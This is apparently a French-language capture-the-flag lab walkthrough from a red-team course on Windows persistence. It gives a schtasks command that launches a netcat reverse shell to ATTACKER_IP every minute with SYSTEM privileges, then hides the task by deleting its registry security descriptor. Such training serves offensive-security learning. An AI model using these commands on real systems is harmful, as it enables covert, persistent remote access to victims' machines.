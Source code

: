 Nous pouvons également utiliser des tâches planifiées pour établir la persistance si nécessaire. Il existe plusieurs façons de planifier l'exécution d'une charge utile dans les systèmes Windows. Examinons-en quelques-uns :

Planificateur de tâches

La manière la plus courante de planifier des tâches consiste à utiliser le planificateur de tâches Windows intégré . Le planificateur de tâches permet un contrôle granulaire du moment où votre tâche démarrera, vous permettant de configurer des tâches qui s'activeront à des heures spécifiques, se répéteront périodiquement ou même se déclencheront lorsque des événements système spécifiques se produiront. Depuis la ligne de commande, vous pouvez utiliser `schtasks`pour interagir avec le planificateur de tâches. Une référence complète de la commande peut être trouvée sur [le site Web de Microsoft](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks) .

Créons une tâche qui exécute un shell inversé toutes les minutes. Dans un scénario réel, vous ne voudriez pas que votre charge utile s'exécute aussi souvent, mais nous ne voulons pas attendre trop longtemps pour cette salle :

Invite de commande

```
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

Remarque : assurez-vous de l'utiliser `THM-TaskBackdoor`comme nom de votre tâche, sinon vous n'obtiendrez pas le drapeau.

La commande précédente créera une tâche "THM-TaskBackdoor" et exécutera un  `nc64`shell inversé vers l'attaquant. Les options `/sc`et `/mo`indiquent que la tâche doit être exécutée toutes les minutes. L' `/ru`option indique que la tâche s'exécutera avec les privilèges SYSTEM.

Pour vérifier si notre tâche a été créée avec succès, nous pouvons utiliser la commande suivante :

Invite de commande

```
C:\> schtasks /query /tn thm-taskbackdoor

Folder:\
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
```

Rendre notre tâche invisible

Notre tâche devrait être opérationnelle à présent, mais si l'utilisateur compromis tente de répertorier ses tâches planifiées, notre porte dérobée sera visible. Pour masquer davantage notre tâche planifiée, nous pouvons la rendre invisible pour tout utilisateur du système en supprimant son descripteur de sécurité (SD) . Le descripteur de sécurité est simplement une ACL qui indique quels utilisateurs ont accès à la tâche planifiée. Si votre utilisateur n'est pas autorisé à interroger une tâche planifiée, vous ne pourrez plus la voir, car Windows vous montre uniquement les tâches que vous êtes autorisé à utiliser. Supprimer le SD équivaut à interdire l'accès de tous les utilisateurs à la tâche planifiée, y compris les administrateurs.

Les descripteurs de sécurité de toutes les tâches planifiées sont stockés dans `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. Vous trouverez une clé de registre pour chaque tâche, sous laquelle une valeur nommée "SD" contient le descripteur de sécurité. Vous ne pouvez effacer la valeur que si vous détenez les privilèges SYSTEM.

Pour masquer notre tâche, supprimons la valeur SD de la tâche "THM-TaskBackdoor" que nous avons créée précédemment. Pour ce faire, nous utiliserons `psexec`(disponible en `C:\tools`) pour ouvrir Regedit avec les privilèges SYSTEM :

Invite de commande

```
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```

Nous supprimerons ensuite le descripteur de sécurité de notre tâche :

![9a6dad473b19be313e3069da0a2fc937](https://github.com/dsgsec/Red-Team/assets/82456829/bf9f3bf4-b99d-48a2-b84b-254d20a4a5c3)

Si nous essayons à nouveau d'interroger notre service, le système nous dira qu'une telle tâche n'existe pas :

Invite de commande

```
C:\> schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.
```

Si nous démarrons un écouteur nc sur la machine de notre attaquant, nous devrions récupérer un shell après une minute :

Boîte d'attaque

```
user@AttackBox$ nc -lvp 4449
```
